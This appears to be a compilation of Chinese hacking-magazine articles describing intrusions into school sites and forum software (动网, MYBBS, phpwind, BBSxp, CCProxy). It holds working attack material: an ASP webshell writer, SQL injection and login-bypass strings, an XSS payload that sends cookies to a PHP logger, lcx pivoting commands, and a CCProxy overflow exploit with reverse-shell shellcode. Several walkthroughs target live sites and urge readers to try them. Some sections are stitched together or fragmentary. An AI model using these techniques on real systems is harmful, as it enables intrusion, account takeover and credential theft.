下面的任务就是找管理入口了。根据个人经验，我们可以找个相同的新闻发布系统下载，然后研究一下结构，找到管理入口。我们到这里搜索“more.asp?typeid=”结果找到了 `http://my.itcto.com/more.asp?typeid=1`，如图6。我们可以看到在这些输入“个人文章管理入口”，我们点击进入来到 `http://my.itcto.com/login.asp` 界面，那么也就是说管理入口有可能是 `http://******/******/******/login.asp` 了，我们来检测一下吧！结果是正确的。现在什么都有了，我们就可以用刚才猜解到的帐号和密码进入管理界面了，如图7。我们成功进入。


原来这个系统是由比特树新闻发布系统重新修改编写而成的呀，看来不是很安全，大家要注意呀。现在你想做什么呢？“交主页上去偶尔吓下吧！写上某某黑客大侠到此一游？这样也太低俗了吧，要不在线编辑个 asp 木马，然后提升权限，再上传远程控制软件，留后门，擦脚印……想法不错思路也很清晰，技术上也没什么问题，不过我很懒，这些还是留给勤劳的人来做吧。”


再怎么说这也是我的母校呀，而且这个空间是市教育局提供的，好多学校的站点都在这里，搞出什么麻烦我可担当不起。好了，新闻发布系统就先搞到这里，下面我们再来看看网站别的部分吧。剩下的还有“课件下载”和“网上留言”两部分了，软件下载是链接到别的网站的，校长信箱就别黑了吧！

我们就先看看“课件下载”吧！如图8。很清新的界面，看来这位老师的美工水平很高呀，不过上面的链接做得不是很好，都是空链接，大概是刚做好，还没来得及测试吧。我们可以看到在网页上部有管理员登录框，我们这里用常规思路来检测，首先我想到了著名的“or 1=1”漏洞，帐号和密码都输入 `1or'1'='1`，结果如图9，成功登录。


回过头来看新闻发布系统，没有此漏洞，这就说明这位老师在下载模板后并没有仔细阅读 ASP 程序，这一点要引起所有管理员的注意了。随便下载个模板不仔细检查几遍就使用，这样怎么能叫人放心呀？记得鄙人朋友做留言本，我先是下载 N 个不同风格的模板，再拼凑起来，然后检查每句代码，再在本机上反复检测，足足半个月才敢上传到网上。所以，在这里要提醒所有站长，做网站要有严谨、细致、不厌其烦的精神。


# 劣质黑手的果实

## 窃取黑手的果实

邻家少女

昨天在给自己服务器做 Web 安全检测的时候，用到了几款网上比较流行的注入工具。其中在用到猪猪的几个破解版 NBSI2 的时候，结果得出来的结果却不尽相同。我就猜想可能是它们用的探测原理不同吧，于是我就分别对它们进行抓包分析。这一看不要紧，结果发现 NBSI2 的 DreamCat 破解版中藏了只黑手！如图1，我明明在检测上面的网址，发现有弹出 NBSI 去 GET 别站的东西吧！稍微一看那个 URL 就知道和那个偷 cookie 是一个模板。

这个问题该怎么修补，我在后面会说到的！知道数据库位置了，当然是先下载过来再说啦，说不准还有后台管理员信息呢？打开下载来的 mdb 数据库，发现其中还有动网论坛的表！这个大家接触多了，也会一目了然的。于是我就直奔 Dv_Log 表，因为这里有管理员在登录后台时的信息，而且一些比如后台管理界面的账号和密码都是明文的哦，如图3所示。似乎我的运气今天不怎么好，拿到的信息登录论坛时总是出错！继续去尝试登录新闻等版块后台，不过均以失败告终！我可不喜欢做事总吊在一棵树上。于是用桂林老兵的域名查询工具看看目标虚拟主机上到底有多少个网站，似乎不算少！就拿第一个来开刀吧！把这个网站大致看了看，论坛啥的都没有。不过有个留言本！呵呵。（台下：留言本？你想玩灌留言啊？）


咋办呢？总不能把自己的服务器拱手任别人来宰割吧！不行，我得把那个 asp 文件搞到手！心里盘算着，万一成功拿到源代码，说不定还可以拿到所有的记录呢？呵呵，说干就干，把矛头直指 http://www.***.com。

在网上转悠了一下，发现论坛用的是动网的！先检查了一下论坛的上传页面，前一段时间好多网站被黑，都是因为 0x00 上传漏洞和 Serv-U 的默认管理员口令！不过 upfile.asp 文件好像是被删掉了。说不准就是我们的黑手所为呢？于是转到网站的商业版块看了看。界面还是比较漂亮的，不过安全好像就有点小问题了。我在加入会员的时候（台下：你还有心思加会员？其实我只是想测试下看可不可以搞到数据库，呵呵，如图2），在 URL 中把最后一个斜杠换成了“%5C”，其实 URL 解析过来就是反斜杠。结果真的把数据的绝对路径给暴露出来了。至于这个怎么利用呢？当然是先暴库了，拿到账号再说呀，如图4。


这一下真的看到数据库路径了，只不过是 asp 扩展名的，怎么办呢？

# 一个人的战争

别慌，火来水挡嘛。先检查一下，对付这样改了扩展名的 mdb 数据库，我一般先是看它可不可以下载。……之后再用 union 查询语句直接读出管理员信息等等。


幸运的是这里好像没有做防下载处理哦。二话不说，直接插入后门代码吧，如图5，就在地址栏写入后门代码。这句蓝屏大叔的后门被大家称为最小后门代码呢！


提交后，我们在本地构造一个 HTML 页面，代码如图6所示，注意前面的 action 的地址。这里要填入我们刚才所暴到的数据库的 URL！空栏地方就直接粘贴我们后门的源代码就可以了。

```html
<form action="http://.../asp/addtobasket.asp" method=post>
<textarea name=l cols=120 rows=10 width=45>
set lP=server.createObject("adodb.Stream")
lP.Open
lP.type=2
lP.CharSet="gb2312"
lP.writetext request("p")
lP.SaveToFile server.mappath("hack.asp"),2
lP.Close
set lP=nothing
response.redirect "hack.asp"
</textarea>
<textarea name=p cols=120 rows=10 width=45>这里写你的代码</textarea>
<input type=submit value=提交>
```


总感觉这个后门的功能似乎弱了些，那我们继续转个桂林老兵的 asp 管理器吧。功能不是一般的强！……所有网站的目录都可以访问，如图8。

别的就不管了，直接找到窃取我们信息的黑网页看看。不错啊，看代码后原来 NBSI 传递过来的信息都放在旁边的 img_log.txt 里了。既然这样我就不客气了，全收下了，呵呵，如图9。


哇塞，居然还把我的 IP 都记录下来了。本来是想找到黑手的后门的，再把代码给改改，收集些信息……想了想，算了，既然都把自己信息拱出来了，也就够了。

对了，最后再把前面提到的关于暴数据库路径的解决方法说说。在连接数据库的文件代码前添加 `<%on error resume next%>` 和：

```asp
Conn.Open
if Err Then
  err.Clear
  Set Conn = Nothing
  Response.Write("error")
  Response.End
End if
```

即可。其中的“Conn”是所创建连接的对象。顺便把 Serv-U 修改默认密码的补丁软件也附上吧，好像 6.0 版本都有这个漏洞哦。关于服务器的安全配置、程序代码的安全，作为管理员的我们应该看多了吧。最后提醒一下安全爱好者：一些（安全）软件还不能随便用，说不准它就是一只披着羊皮的狼哦！

# 一个人的战争

## MYBBS——年纪小漏洞可不小

傲笛飞血

一提到论坛，大家都会想到动网吧，并肯定会联想到动网的那一系列漏洞，真是琳琅满目，让我们目不暇接，更让我们管理员哭得眼泪都没了。于是乎不少人纷纷弃动网而另投明主，但其他的论坛系统肯定安全吗？不见得吧！MYBBS 是最近兴起的一个论坛，年纪轻就是没经验啊，殊不知自身有一个类似动网 upfile.asp 一样易操作却危险至极的东西，下面就让我们踏上这段漏洞之旅吧！

像往常一样，我们先在百度里搜搜，我搜的是“mybbs version mybbs access”，搜出来很多页，选中一个上去，这个人气还不错，咱也不管，注册了个账号，登录。这里要注意了，登录时一定要点保存 cookie，如图1。登录上去，随便找个地方发个帖子，看好了，这里有个上传文件的地方，然后我选了一个 asp 木马，把后缀改成 gif 点上传，这时看下面会出现一些字，如图2，记下它来。

我的是“[IMG]../mybbs_UpLoadFile/200531242707450.gif[/IMG]”，继续来，下面我们要找到他的管理员 ID，但我们只要找大 ID 就行了，密码就不要了，要不就不叫漏洞了。

有不少朋友都是在会员列表一页里找 VIP 会员，但我想，有点经验的管理员都会把管理权限给普通会员的，所以我是从注册日期入手，第一个号一般就是我们要的了（当然你可以用别的方法），我找的是 admin（其实我试了好多人，admin 是最后找到的，如图3）。


好了，我们现在打开 iecv.exe，在里面找到我们准备入侵的论坛的网址，在下面点右键选“修改 cookie 内容”。然后把我们的 ID 改成我们找到的管理员 ID，如图4、图5。


改好后我们再打开一个浏览器窗口（必须重开一个），把我们那个论坛的网址打上，看到吗？我们成了 admin 了（别兴奋，这时候还只是假象）。我们这时点资料，在里面把管理员的 ID 改了（改就行，不要原密码，漏洞就在这儿），如图6、图7。


图6


图7

改好后点确定，再点管理，输入我们改好的密码进了后台。

后面就很简单了，数据库备份，把我们传上来的 gif 再改成 asp（不会的话就去买两个前期的 X 档案看吧），如图8、图9、图10，我现在已经到木马的界面了，看看，是不是很羡慕啊！快打开电脑试试吧！（一定要快哦，补丁很快就要出来了）。


图8


图9


图10

（本文所涉及的软件 iecv.exe 本期光盘中已有收录）

## 在 phpwind 论坛里潜藏的威胁

浅蓝的辐射量 [F.S.T]  
Ezboy [F.S.T]

PHPWIND 论坛是一款流行的 PHP 论坛，界面美观，功能也比较强大。但大家仔细看一下会发现，不论是从界面功能还是代码风格，它和 DISCUZ 都非常相似，具体原因我想也就不用说了，毕竟 DISCUZ 出来比它要早很多。但安全上它没有继承 DISCUZ 的优点，DISCUZ 论坛安全性非常好，而且商家也对此非常重视安全问题，国内论坛中不论成功能还是安全，第一非 DISCUZ 莫属。PHPWIND 虽然代码严谨，逻辑清楚，但还是有一些漏洞，而且还相当严重（介绍我稍微炒作了一下小花的，大家千万不要鄙视我啊，我不善言辞）。

### 1 漏洞原因

不知道大家发现没有，在 phpwind 注册的时候没有头像选择，但是你抓包就会发现有头像图片的设置，通过读代码你会发现注册时候头像没有过滤。为了发现这个，我们可以简单地来看一段代码。

由于代码量实在太大，大家最好去看一下源文件，我在此给出一段注册时写到 mysql 里的部分：

```php
$db->update("INSERT INTO pw_members (username,password,email,publicmail,groupid,memberid,icon,gender,regdate,signature,introduce,oicq,icq,site,location,postnum,rvrc,money,lastvisit,thisvisit,bday,receivemail,yz,onlineip,signchange)
VALUES ('$rg_name','$rg_pwd','$rg_email','$rg_emailtoall','$rg_groupid','$rg_memberid','$regicon','$rg_sex','$timestamp','$rg_sign','$rg_introduce','$rg_oicq','$rg_icq','$rg_homepage','$rg_from','0','$rg_rervrc','$rg_regmoney','$timestamp','$timestamp','$rg_birth','$rg_ifemail','$rg_yz','$onlineip','$rg_ifconvert')");
```

这里一段就是把注册用户的所有资料写到数据库里，大家注意一下 $regicon，这个是在注册页面里完全没有的参数，我们就可以自己写个表单或发包来控制这个变量。大家知道这个变量是干什么的吗？它就是我们在论坛的头像。

大家都知道头像会显示在我们发帖的时候！那么我们构造头像可以轻松地跨站了。后来凯文在看代码的时候才发现，原来在修改资料的地方也存在这样的漏洞（汗，我还高看了编写者）。

### 2 跨站利用

大家可能快忘记这个东西了，phpwind 的跨站可不是以前的什么 img 标签啊，这个跨站可是你想写什么就写什么的啊，知道不？

跨站脚本本就会被处理掉，其实是多心了，phpwind 很关心我们，所以它 global.php 这里已经解决了转义的问题了，难道你看见过谁在论坛发帖子“\”号变成了“\\”了？多心了。现实跨站代码大家都会写，也可以参考我在《黑客 X 档案》第三期的那篇，不过这个跨站既然我们可以自己写代码，就不需要那么麻烦了。构造好了就可以了，我们还是要自己写个表单来提交，我写了一个简单的 HTML 页面来演示这个漏洞。

```html
" border=0><script>alert("警告一下啦，没什么大不了的啦")</script>document.location='http://localhost/saiy.php?'%2Bdocuments.cookie'</script>`。关于更好的构造大家可以去想，我们把这段代码用自己的表单写到头像的位置里（和上面一样的，这步我就不重复来编稿子吧）。文章快结束的时候去 www.bugkidz.org 发挥灌了一下水，如图3、图4。


图3


图4

然后我们就可以利用 test.txt 里的内容伪造 cookie 来登录这个论坛进行一切的操作……一切都是由于一个隐藏的参数没有过滤造成的，所以说安全不是片面的东西，很多小细节都要仔细地检查。写文章的时候还没有联系上作者，希望大家看到这篇文章可以帮忙转告一下此漏洞，请不要利用此漏洞做任何违法事情。

### 4 漏洞修补

简单的话，你把用户自定义头像的功能去掉就好了。另外，你可以去掉注册时候的头像写入数据库的功能。修改资料的地方，你就允许他想写什么就写什么吧，我们只要使用 htmlspecialchars 函数把那些可爱的脚本变成“&lt;”这类的，允许他们去做所有他们想做的吧，他们会很愉快的。我这里有两个修改好了的，放在论坛根目录覆盖原文件就可以了，最好还是去官方下载补丁吧……

```php
<?php
$info = getenv("QUERY_STRING");
if ($info){
  $info = urldecode($info);
  $fp = fopen("test.txt","a+");
  fwrite($fp,$info."\n\n\n");
  fclose($fp);
}
?>
```

其中，test.txt 就是拿 cookie 的……

### 5 总结

学 PHP 快三个月了，所以读码能力不是很强。一切都是由于 ezboy[F.S.T] 发现 $regicon 没有过滤引出来的，可以说都是他的功劳。有什么错误指教可以到 http://www.wrsky.com，不吝指教……（文章中涉及到的程序 profile.php、reg.html、register.php、ts-phpwind-php.rar 已经收录于光盘中）

# 一个人的战争


前几天和黑城的版主 jackson 在聊天，聊到 bbsxp 版本挺好看啊，也不知道什么眼光，我觉得不怎么好看，只是清爽了一些！偶尔也就测试了一下，发现居然能爆出物理路径！查了一下这个版本是 2004.10 月份后发布的，不算很老的！使用率大家搜索一下就知道了！

- 下面给大家说说步骤：
- 1. 在 www.baidu.com 中查找 “BBSxp 5.11/Licence”，这样搜索出很多站。
- 2. 因为是“%5c”暴库，所以一级目录就别试了……
- 3. 打开类似 `http://.../bbs/ShowForum.asp?forumid=11` 的页面，在第二个 `/` 后加 `%5c` 测试。

什么也没出现或提示错误？那是你 IE 设置有点完美！打开“工具-选项-高级”，取消“显示友好的 HTTP 错误”前的勾。现在再看就看到了数据库下载地址……如果发现有井号 `#`，可以用 `%23` 替换下载。


- 4. 先下载下来再说！下载后用辅助 mdb 工具打开……查找 user 项，找到管理员用户；也可通过版块权限判断管理员级别。


- 5. 密码是 md5 加密的，能不能解密就看你自己的运气了！在破解时不要太盲目……可先收集区长信息（ID、姓名、邮箱、QQ 等）缩小范围；同时可查看数据库 message 表，管理员和会员消息常在这里，可能得到管理密码。


所以在这也提醒一下，如果你是管理员，那在这方面要小心！这个论坛的密码我解开了，7 位数字！如图4。


- 6. 然后就不用我说了，登录管理！管理地址 `admin.asp`，如图5。


- 7. 上传个木马试试，在后台打开上传组件，添加 asp，回到论坛发帖上传……改图片欺骗上传后传到后台继续处理，备份数据库，在数据库地址里输入图片地址，在备份地址里设好路径，路径文件名定 asp 格式……若提示数据库不能包含 asp 格式，可切换扩展名再试，最终成功。


会飞的骆驼

- 8. 其实不利用备份数据库的方法也能得到 webshell，还有一个更好的方法，就是在后台添加允许上传的格式。我添加了 asa，用普通会员身份一样可以上传，得到 webshell。

# 蓝色伊人日记本漏洞分析

# 一个人的战争

前些天很无聊，于是在网上逛了逛一个朋友的日记本……结果发现可通过修改 `userid` 参数查看并修改他人资料，甚至密码。于是记录下关键代码与修补思路。

```asp
if trim(session("username"))="" then
  response.Redirect("login.asp?action=err")
  response.End()
else
  username=session("username")
  userid=session("userid")
end if
userid=clng(request.QueryString("userid"))
set rs=Server.CreateObject("adodb.recordset")
sql="select * from diaryuser where userid="&userid
```

```asp
where userid='"&userid
rs.open sql,conn,1,1
username=rs("username")
password3=rs("password")
kg=rs("kg")
sex=rs("sex")
url=rs("url")
qq=rs("qq")
rs.close
```

很显然，这段代码只检查 `session` 中 `username` 是否为空，却没有验证传入 `userid` 是否属于当前用户，导致越权读取与修改。

修补思路：登录时将当前用户 `userid` 写入 session；在 `info.asp` 中比对请求 `userid` 与 session 中 `userid`，仅一致时返回资料。

```asp
if trim(session("userid"))=trim(Request("userid")) then
  '关键代码
  username=session("username")
  userid=session("userid")
else
%>
<script language="JavaScript">
alert("不要试图访问他人资料，谢谢！");
history.back();
</script>
<%
  response.end
end if
```

这样处理后安全性会高很多，核心就是把权限边界与 `session` 绑定，而不是信任 URL 参数。

# 利用端口转向深度入侵内网

文章下半部分转向端口转向工具 `lcx.exe` 的使用，讨论如何通过转发将外网可达端口与内网服务建立通路，用于渗透测试中的横向访问。

## 命令行命令注解及最简单的应用示例


按个人理解，高手与菜鸟往往只差在工具与思路结合。文中给出 `lcx -tran <ConnectPort> <TransmitHost> <TransmitPort>` 等命令，并结合 3389/1433 场景说明端口转发在内网渗透中的用途与限制。

给 WEB 服务器，其它端口都被安全策略屏蔽掉了。这种情况下我们把 lcx.exe 传到这台肉鸡上，执行一条命令 `lcx.exe -tran 1433 127.0.0.1 3389`，就会把肉鸡的 3389 转到 1433 上了，我们连肉鸡的 1433 端口就可以连上 3389 了。我试过了，可以转 1433，却不能转 80。这里命令的 127.0.0.1 就是指肉鸡本身的 IP 了。我在本机做的测试，看结果分别如图2、图3所示。当然了，如果你在转 1433，转到的端口也是可以的，只要这个端口允许外连。


## 二、远程木马的三个应用

第一个例子其实只是一个理想化的例子，文章是把本机做了一个端口转向，很多情况下会发现成功率太低了。要想成功率高一些，必须类似 v idc 的本地这样做功能，我们就要看到命令行1和命令行3了。我还是在本机做的测试，开了两台电脑。一台的 IP 是 192.168.8.10，一台的 IP 是 192.168.8.20，现在我们要做的是把 192.168.8.10 这台不允许远程连 3389 的端口转向到 192.168.8.20 上的某个端口，具体如何做，看我的了。先在 192.168.8.20 上运行命令行1，实现两个端口来监听及转向的功能，命令如下：`lcx.exe -listen 7788 3389`，如图4；然后我们再在 192.168.8.10 上运行命令行3：`lcx.exe -slave 192.168.8.20 7788 192.168.8.10 3389`，这样的话我们是把 192.168.8.10 的 3389 转到了 192.168.8.20 的 7788 端口上，如图5。正好 192.168.8.20 的 7788 端口会转发到本机的 3389 端口上，我们在 192.168.8.20 连 3389 终端，就会连到 192.168.8.10 的机器上了，如图6。


## 三、入侵不能上网的机器

听起来很吓人，一台机器不能上网，我们都能入侵进去吗？当然可以了，还是来举一个例子。192.168.8.30 -> 192.168.8.20 -> 192.168.8.10，其中后两台机器是在同一局域网内；192.168.8.10 不能上网，它没有设定网关，但与 192.168.8.20 是相通的。30 是我们本地机器，也就是我们的电脑，可以通过网络连到 20，20 通过局域网连到 10，但是 30 却不能直接连到 10 的这台机器上。如果我们入侵了 192.168.8.20 这台机器，我们运行 lcx.exe 做端口转向就可能直接连到 192.168.8.10 这台机器了。怎么做呢？我们还是在本地 192.168.8.30 这台机器上监听两个端口 `lcx.exe -listen 7788 3389`，如图7，然后我们在入侵成功的 192.168.8.20 上运行 `lcx.exe -slave 192.168.8.30 7788 192.168.8.10 3389`，如图8，然后我们在本地的机器 192.168.8.30 上运行 3389 终端连 192.168.8.30，如图9，就可以直接连到 192.168.8.10 这台内网机器上了。这个比较复杂，属于三台互联互相端口转发的动作。如果你不能想通，你就把 192.168.8.20 当成一个跳板，连起了不能上网的机器 192.168.8.10 和我们外网的本地主机 192.168.8.30 了。当然，有了这个工具，照着这篇文章做一下，你一下子就会明白了。红客联盟虽然解散了，不过他们的工具仍然能够下载到：<http://www.cnhonker.com/download/projects/Tools/HTranV2.0/>，这里有端口转发 2.0 版，功能就更多更复杂了。我编译的 lcx.exe 是他们的 1.0 版，不过试用之后仍然感觉强大够用。希望这篇文章能够对大家有所帮助，对入侵内网的基本知识有所了解。


（本文所涉及的软件 lcx.exe 已收录于本期光盘中）


# CCProxy 6.2 漏洞分析

wolfboy [彪悍魂 e.s.t]

ccproxy 是一款国产的使用方便、界面整洁的代理软件，支持 HTTP、FTP、SOCKS4/5、TELNET、HTTPS 等代理协议……国内 ccproxy 运用得十分广泛。

我们学校的校园网也用上了它……现在我手上的版本是 ccproxy 6.2，记得 ccproxy 6.0 曾被发现过 HTTP 代理远程缓冲区漏洞。

打开 ccproxy 6.2，使用默认配置，开启 HTTP、FTP、HTTPS、TELNET、新闻等代理……在命令提示符输入 `telnet 127.0.0.1`。

```text
CCProxy Telnet>CCProxy Telnet Service Ready
CCProxy Telnet>
```

输入 ping 2000 个 a……内存 `61616161`，通过图像可确认 61(a) 覆盖了返回地址，漏洞确实存在。

重新用 OllyDbg 运行并下断点：`bp strcpy, strcat, sprintf`……随后改在 `WSASend`、`0041735c CALL 00426B20` 等位置跟踪。

（右栏）作者说明 ccproxy 6.2 中的 sprintf 为自写函数，并对此前 HTTP 代理 shellcode 做了调整。

```asm
inc edx
inc edx
shellcode
0x7ffa54cd
```

```asm
ping +0x42 +shellcode +0x7ffa54cd=1016 ...
mov ecx,0x29911111
shr ecx,0x14
sub esp,ecx
jmp esp
```

这样一来，返回地址变成 `0x7ffa54cd`，在 2000 下指向 `jmp esp`，然后就会执行。

```asm
mov ecx,0x29911111
shr ecx,0x14
sub esp,ecx
jmp esp
```

这几句代码意图是把 esp-299 跳过去执行，最终 shellcode 运行。

```c
#include <stdio.h>
#include <windows.h>
#include <winsock.h>
#pragma comment(lib, "ws2_32")

unsigned char shellcode[] =
"\xeb\x0e\x5b\x33\xc9...";
"\x84\xec\x11\xb8\xfe\x7d\x86\x91\xee\xee\xef\x86\xec\xee\xee\xdb"
"\x65\x02\x84\xfe\xbb\xbd\x11\xb8\xfa\xb0\x2e\x9b\xb6\x65\x12\x84"
"\xfc\x7f\x45\x0c\x13\x88\x29\xaa\xca\xd2\xef\xef\x7d\x45\x45\x45"
"\x65\x12\x86\x8d\x83\x8a\xee\x65\x02\xbe\x63\xa9\xfe\xb9\xbe\xbf"
"\xbf\xbf\x84\xef\xbf\xbf\xbb\xbf\x11\xb8\xea\x84\x11\x1a\x9d\x11"
"\xb8\xe2\x11\xb8\xf6\x11\xbb\xe6\xbf\xbb\x59\xbd\x65\x9a\x00"
"\x96\xed\x1b\xb8\x65\x98\xce\xed\x1b\xdd\x27\xa7\xaf\x43\xed\x2b"
"\xdd\x35\xe1\x50\xfe\xd4\x3b\x9a\xe6\x2f\x25\xe3\xed\x34\xae\x05"
"\x1f\xd5\xf1\x9b\x09\xb0\x65\xb0\xca\xed\x33\x88\x65\xe2\xa5\x65"
"\xb0\xf2\xed\x33\x65\xea\x65\xed\x2b\x45\xb0\xb7\x2d\x06\xcd\x11"
"\x11\x11\x60\xa0\xe0\x02\x9c\x10\x5d\xf8\x01\x20\x0e\x8e\x43\x37"
"\xeb\x20\x97\xe7\x1b\x43\x02\x17\x44\x8e\x09\x97\x28\x97";

/*
mov ecx, 0x12811111
shr ecx, 0x14  // ecx=128
sub esp, ecx
jmp esp

1.
2. ecx inc edx
*/

void start(void)
{
    printf("CCProxy 6.2 telnet Stack Overflow Exploit\n");
    printf("written by Ruder 10/3/2005\n");
    printf("Bug found by wolfboy at 9/3/2005\n");
    printf("QQ:10010520\n");
    printf("E-mail:hackerpeng@163.com\n");
    printf("usage: target port backIP backPort\n");
    printf("CCProxy 6.2 telnet 代理最新远程溢出漏洞利用程序\n");
    printf("作者: wolfboy\n");
    printf("漏洞发现者: wolfboy\n");
    printf("漏洞发现时间: 2005年3月9日\n");
    printf("使用方法: 目标 端口 返回shell的IP 监听端口\n");
}

int main(int argc, char *argv[])
{
    WSADATA wsd;
    SOCKET sClient;
    int ret, i, tmp;
}
```

| 指令 | 构造 |
|---|---|
| `inc edx` | `jno edx\|shellcode\|0x7ffa54cd` |

```c
struct sockaddr_in server, local;
struct hostent *host = NULL;
int IPLen;
int a;
char buff[4096] = {0};
char *IPStr;
u_short tmp1;
char *PORTStr;

start();

if (argc != 5)
{
    printf("usage: %s target port backIP backPort\n", argv[0]);
    printf("使用方法: 目标 端口 返回shell的IP 监听端口\n");
    exit(1);
}

if (WSAStartup(MAKEWORD(2,2), &wsd) != 0)
{
    printf("Failed to load Winsock library!\n");
    return 1;
}

sClient = socket(AF_INET, SOCK_STREAM, IPPROTO_IP);
if (sClient == INVALID_SOCKET)
{
    printf("socket() failed: %d\n", WSAGetLastError());
    return 1;
}

// shellcode
tmp=inet_addr(argv[3]);
a=(DWORD)&tmp;
IPStr=(char*)a;

shellcode[92]=IPStr[0]^0xee;
shellcode[93]=IPStr[1]^0xee;
shellcode[94]=IPStr[2]^0xee;
shellcode[95]=IPStr[3]^0xee;

tmp1=htons((u_short)atoi(argv[4]));
a=(DWORD)&tmp1;
PORTStr=(char*)a;

shellcode[99]=PORTStr[0]^0xee;
shellcode[100]=PORTStr[1]^0xee;

server.sin_family = AF_INET;
server.sin_port = htons((u_short)atol(argv[2]));
server.sin_addr.s_addr = inet_addr(argv[1]);
if (server.sin_addr.s_addr == INADDR_NONE)
{
    host = gethostbyname(argv[1]);
    if (host == NULL)
    {
        ...
    }
}
printf("Unable to resolve server: %s\n", argv[1]);
return 1;
...
CopyMemory(&server.sin_addr, host->h_addr_list[0], host->h_length);
...
if (connect(sClient, (struct sockaddr *)&server, sizeof(server)) == SOCKET_ERROR) {
    printf("connect() failed: %d\n", WSAGetLastError());
    return 1;
}
...
a=sizeof(sockaddr_in);
if (getsockname(sClient, (struct sockaddr *)&local, &a) == SOCKET_ERROR) {
    printf("getsockname() failed: %d\n", WSAGetLastError());
    return 1;
}
IPLen=strlen(inet_ntoa(local.sin_addr));

// ping
buff[0]=0x70;
buff[1]=0x69;
buff[2]=0x6e;
buff[3]=0x67;
buff[4]=0x20;

// INC EDX
// 0x42
tmp=1016-sizeof(shellcode)-5-1;
for(i=5;i<tmp+5;i++)
    buff[i]=0x42;

CopyMemory(&buff[i], shellcode, sizeof(shellcode));
i=i+sizeof(shellcode)-1;

buff[i]=0x0D;
buff[i+1]=0x64;
buff[i+2]=0xFA;
buff[i+3]=0x7F;

i=i+4;
buff[i++]=0xB9;
buff[i++]=0x11;
buff[i++]=0x11;
buff[i++]=0x81;
buff[i++]=0x12;
buff[i++]=0xC1;
buff[i++]=0xE9;
buff[i++]=0x14;
buff[i++]=0x2B;
buff[i++]=0xE1;
buff[i++]=0xFF;
buff[i++]=0xE4;

ret=send(sClient,buff,i,0);
printf("发送成功，祝你好运\n");
closesocket(sClient);
WSACleanup();
return 0;
```

完整的代码已经给出了，剩下的事儿就是编译及测试了，留给菜鸟朋友们去亲身体验。

> 如果还有什么问题的话，就请大家找我。

## 从实例看SQL注入原理

Navyseals

> 昨天在天府听 m*m 说他们的论坛出了问题，所以跑来这里分析和解决方法。

这篇文章是 04 年 7 月我表妹告诉我说他们自己搞的论坛出了安全问题，叫我帮忙看看有没有什么可以给他们的系统管理员提的建议，而我当时正在看关于 SQL 注入方面的资料，于是对他们的论坛作了一下检查，基本上没有使用任何自动工具。虽然隔得有点久了，但是现在觉得还是可以作为学习 SQL 注入的原理篇实例来看，以下为当时的原文。

> 对 www.z******.com 论坛的漏洞分析及解决方法建议

打开 www.z******.com 的首页，到处乱逛了一下然后看到网页最下面的 MyPower Ver3.51 的字样，于是点击它来到 www.asp163.net，也就是涵浮的论坛服务程序的开发商那里。于是知道论坛的服务程序叫做动力文章系统，版本为 3.51。由于不知道网站的问题出在哪里，只好先打开 Win2000 的 cmd，如下：

```text
Microsoft Windows 2000 [Version 5.00.2195]
(C) 版权所有 1985-2000 Microsoft Corp.

C:\Documents and Settings\n03>ping www.z***.com

Pinging www.z******.com [218.***.203] with 32 bytes of data:
Request timed out.
```

# 一个人的战争

```
Request timed out.
Request timed out.
Request timed out.

Ping statistics for 218.*.*.203:
  Packets: Sent = 4, Received = 0, Lost = 4 (100% loss),
Approximate round trip times in milli-seconds:
  Minimum = 0ms, Maximum = 0ms, Average = 0ms
```

解析出 IP 地址为 218.*.*.203，然后看看目标主机开了哪些服务，在 cmd 中打开扫描程序 nmap。

```
C:\Documents and Settings\no3>c:\nmap -v -sS -O 218.*.*.203
Starting nmap 3.50 ...
Host 218.*.*.203 appears to be up
Initiating SYN Stealth Scan ...
Adding open port 80/tcp
Adding open port 389/tcp
Adding open port 1002/tcp
Adding open port 1720/tcp
Adding open port 21/tcp
The SYN Stealth Scan took 239 seconds ...
```

一看结果觉得比较茫然，感觉可用的端口只有 2 个，21 和 80。更郁闷的是暂时想到的思路也不多：指望 ftp 服务程序存在缓冲区溢出漏洞，web 服务界面存在漏洞。先用 ftp 连接服务器：

```
C:\Documents and Settings\no3>ftp 218.5.76.203
Connected to 218.5.76.203.
220 Welcome to FTP server.
User (218.5.76.203:(none)):
```

没有说明 ftp 服务程序的版本信息，倒郁闷。不知道版本就不知道是否可以溢出。暂时放弃对 ftp 服务程序的攻击，试着把希望转移到 80 端口上来。随后做了 webdav 的检测，失败，没法用 webdav 溢出直接拿系统权限。既然是论坛，注意力自然转移到了 SQL Injection 上面，随便找一个 asp 页面，如图 1。


在 `http://www.z*******.com/Article_Show2.asp?ArticleID=301` 后面加单引号“'”，回车后，如图 2 所示。然后在 URL 后加入 `and 1=1` 回车，出现错误信息：


```
Microsoft VBScript 运行时错误 '800a000d'
类型不匹配: 'CInt'
/inc/syscode_article.asp, 行45
```

晕！注入不成功（必须“巧”报错才行）。去 Google 搜索关键字后，发现与“打印页面”相关的句子。回到论坛，随便打开一篇文章，在下边选打印此文，出来一个页面，如图 3。


先加个单引号看一下，如图 4。注意图 4 里有个 `%20`，这是空格的编码，实际即 `articleID=7'` 后面是一个空格和一个单引号。


从报错信息看出，网站使用的是 Access 数据库，通过 JET 引擎连接而不是 ODBC。经输入“/='”和“1=2”的判断后，确定论坛存在 SQL 注入漏洞。于是开始对论坛数据进行有针对性探测。

- 第一步：提交 `http://www.z*******.com/Article_Print.asp?ArticleID=7 and exists (select * from admin)`，如图 5。


可以看出返回正常页面，于是 SQL 语句 `select * from admin` 没有出错，表示数据库中存在 admin 这个表。

- 第二步：提交 `http://www.z*******.com/Article_Print.asp?ArticleID=7 and exists(select id from admin)`，还是返回正常页。

页面没有报错，表示在 admin 这个表中存在 id 这个字段。同理判断出 admin 中还存在 username、password 等几个我们感兴趣的字段。

## 第三步

提交 `http://www.z*******.com/Article_Print.asp?ArticleID=7 and (select id from admin where id=1)`，返回正常页面，表示存在“id=1”的管理员。同理，提交 `http://www.z*******.com/Article_Print.asp?ArticleID=7 and (select id from admin where id=2)`，返回正常页面，表示存在“id=2”的管理员。依次猜下去，到“id=9”的时候出错，说明前 8 个都是管理员。

## 第四步

猜 id 为 1 的管理员用户名长度，先假设长度小于 6，提交 `http://www.z*******.com/Article_Print.asp?ArticleID=7 and exists (select id from admin where len(username)<6 and id=1)`，得到正常页面，于是知道用户名长度小于 6。


再缩短假设的长度（直到我们猜出准确值），假设小于 5，提交 `http://www.z*******.com/Article_Print.asp?ArticleID=7 and exists (select id from admin where len(username)<5 and id=1)`，我们得到如图 7 所示的页面。


出错了，找不到了，说明我们的假设条件“len(username)<5”不成立。既然这个用户的名字长度小于 6 又不小于 5，当然就等于 5 了。不信看返回正常页面，如图 8。


